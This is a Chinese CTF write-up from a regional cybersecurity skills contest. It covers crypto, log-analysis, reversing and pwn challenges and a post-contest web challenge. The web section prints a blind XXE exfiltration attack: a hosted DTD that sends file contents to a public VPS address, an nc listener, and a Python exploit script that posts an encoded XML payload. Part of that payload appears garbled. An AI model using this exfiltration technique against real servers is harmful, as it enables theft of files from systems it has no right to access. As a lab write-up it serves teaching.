# 记一次某地市网络安全行业职业能力竞赛初赛CTF题解WP（全）-先知社区

> **来源**: https://xz.aliyun.com/news/18532  
> **文章ID**: 18532

---

# Cry

## 题目考点

编解码知识：base58，w型栅栏，3栏，最后rot13.

## 解题思路

根据提示：“凯撒先生跨过了3层栅栏后点单了一份58摄氏度的白开水”

出题人还是给了一些提示的。58就是base58.3栅栏就是栅栏。

2vnWdE3QfQQvsZZaozQLiRMhYbmG1o1vhFWcjfcZbAUmnpW5XKUU7DYRQA

一眼看就是个base，尝试base58，看上去有点好玩了,有点flag的样子了。



可以看到w型栅栏密码为3篮的时候，flag样子出来了



再尝试用赛博厨子梭一下rot13。



# Misc



## 题目考点

日志分析

## 解题思路

这题真是我瞎蒙。哈哈。

根据题目提示，服务器上面有一些奇怪的进程和文件，那么攻击者一定是通过ssh登录成功的。于是我就把日志文件全部放kali里面分析。提取 accepted就可以了



然后逐一尝试各个ssh登录日志文件，逐个尝试提交flag{ip}。

直到尝试到177.77.135.158的时候，提交flag正确了。哈哈（文末会分享正统解法）

flag:flag{177.77.135.158}

# **Rev**1751267166156.jpg

## 题目考点

逆向程序、编解码、异或

## 解题思路

IDA查看main函数

一、

int64 \_\_fastcall main(int a1, char \*\*a2, char \*\*a3)

​

{

\_\_int64 v4; // rax

int v6; // [rsp+8h] [rbp-48h]

int i; // [rsp+Ch] [rbp-44h]

char v8[40]; // [rsp+10h] [rbp-40h] BYREF

unsigned \_\_int64 v9; // [rsp+38h] [rbp-18h]

v9 = \_\_readfsqword(0x28u);

std::string::basic\_string(v8, a2, a3);

sub\_2479();

std::operator<<<std::char\_traits<char>>(&std::cout, "Please enter something: ");

std::getline<char,std::char\_traits<char>,std::allocator<char>>(&std::cin, v8);

if ( (unsigned \_\_int64)std::string::size(v8) > 0xA && (unsigned \_\_int64)std::string::size(v8) <= 0xE )

std::operator<<<std::char\_traits<char>>(&std::cout, "Intermediate check passed. ");

if ( (unsigned \_\_int8)sub\_2BE3(v8, "target") )

{

v6 = 0;

for ( i = 0; i <= 2; ++i )

{

if ( i == 1 )

++v6;

}

sub\_24FB(&unk\_6280);

}

else

{

v4 = std::operator<<<std::char\_traits<char>>(&std::cout, "This is not what I want, try something else?");

std::ostream::operator<<(v4, &std::endl<char,std::char\_traits<char>>);

}

std::string::~string(v8);

return 0LL;

}

可以发现要求输入target就输出密文，先查看密文



产生密文的函数复杂，翻看困难，于是调整思路，根据代码，密文的产生和输入的内容没有关系，所以要先找到生成密文的初始状态，也就是&unk\_6280，直接查询引用。



发现了另一个加密字符，这个字符非常像base58加密的。尝试base58解密得到



很有flag的样子了，根据题目名称提示是有XOR操作的，尝试爆出key，



得到key 37

简化一下脚本输出flag



flag{X0r\_Base\_Are\_G00d\_Br0ther}

# Pwn



## 解题思路

Pwn其实我不太会的，我抱着试试看的心态，先把二进制文件拖到kali，然后调试，随便交互式的玩几下就发现可以执行本地命令。于是我心里大概有思路了。大概思路就是输入相应的数字，计算，就会给你尝试连shell的机会啥的，所以只要连接远程服务器端的main程序，输入正确的字符序列就会给个shell。



可以看到，随便玩一下，就可以拿到shell，接着，我用nc死活连不上靶机，后来发现是梯子的问题（此处一万头草泥马）。所以实在没办法，我就用脚本连了。

这里一次输入12，a，1，1，然后cat /flag就拿到flag了。



flag{JJmUtICpYFmtIiSBM6u0UAlJ4HZLjSWq}

# 赛后复盘

以上4个题目就是我当时在比赛时候的思路。赛后我又重新复盘了这几道题，其一是把misc和pwn题按照正统思路重新做了一遍。然后在小伙伴的帮助下把web题也解出来了。下面废话不多说，开始解题。

## misc复盘



一共这么多日志文件：

1、wtmp.log

记录所有用户的登录、登出以及系统启动信息。这个文件通常用于分析谁登录了系统，登录的时间等。

2、auth.log

记录系统安全相关的信息，如用户认证（登录）失败或成功的信息。

3、btmp.log

记录失败的登录尝试信息，默认由lastb命令查看。

依然是根据题目提示，攻击者已经登录了，并且在服务器上做了一些恶意操作，起了一些奇怪的进程和程序。那么我们首先就是从认证日志也就是auth.log入手。查看所有登录成功的ip。再从登录成功的ip中筛选出攻击成功的攻击者ip。



稍微处理一下。



得到了登录成功的ip以及登录成功的次数。（其实如果是为了做题而做题，这个时候只需要将这7个ip逐一提交，就能试出正确的flag{ip}，但是我们为了学习肯定不能这么干）。所以接下来，就是对这7个IP逐一分析了。



可以看到当分析到177.77.135.158的时候出现了大量爆破登录失败的日志。说明该ip存在恶意操作并且登录成功。所以答案就是这个177.77.135.158了。

## PWN题复盘

pwn题不用想了，正统解法也是邓师傅出的，我就学一下。



根据代码，byte\_8104C84[0] == 103成立时可以获得shell,查看byte\_8104C84操作的地方，发现在主逻辑有



由于需要跳转到”bad choice!”里面，要先输入-1跳出while在选择计算符号时输入9跳转进去，然后到label\_13获得now you have 4294967294 chances left!



最后正常计算获得shell。

## web复盘

赛后在邓师傅和侠猫的帮助下web题也算是解出来了，环境是邓师傅搭的，题解是侠猫出的。

先在公网VPS 上传一个xxx.dtd文件，内容如下：

<!ENTITY%start"<!ENTITY%sendSYSTEM'<http://111.230.72.48:1234/?>

%file;'>">

python3 -m http.server 80

开web服务，使<http://ip/xxx.dtd>能被访问到

另起一个终端 nc 111.230.72.48 123 开启监听

执行exp

import requests  
import base64  
from urllib.parse import quote  
ip = "111.230.72.48"  
port = "32786"  
vps\_dtd = "<http://111.230.72.48/xxx.dtd>"  
cookies = {  
 'PHPSESSID': 'sp4pr4h9bbm53310m53b3kf75l',  
}

headers = {  
 'X-Requested-With': 'XMLHttpRequest',  
 'Origin': f'http://{ip}',  
 'Referer': f'http://{ip}/user/',  
 'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',  
 'Accept-Language': 'zh-CN,zh;q=0.9',  
 # 'Cookie': 'PHPSESSID=ipu2vd02h83a8oricqav6lis98',  
 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36',  
 'Accept': '/',  
 # 'Accept-Encoding': 'gzip, deflate',  
}  
xml = f' %remote; %start; %send; ]> &lab; '  
#print(xml)  
base64\_xml = base64.b64encode(xml.encode("utf-8")).decode("utf-8")  
data = {'data': 'data:text/xml;base64,'+ base64\_xml}  
response = requests.post(f'http://{ip}:{port}/user/upload.php', cookies=cookies, headers=headers, data=data)  
print(response.text)

​

查看nc上的来访记录，网址后面base64解码就是flag



​

总结：感觉整场比赛下来，题目难度适中，出题人给的提示比较多，在一些难点的时候，也不会出现那种抽象猜谜的情况。所以主办方没有为难选手的意思，感觉只要是扎扎实实打CTF的选手基本都能出4个题目。
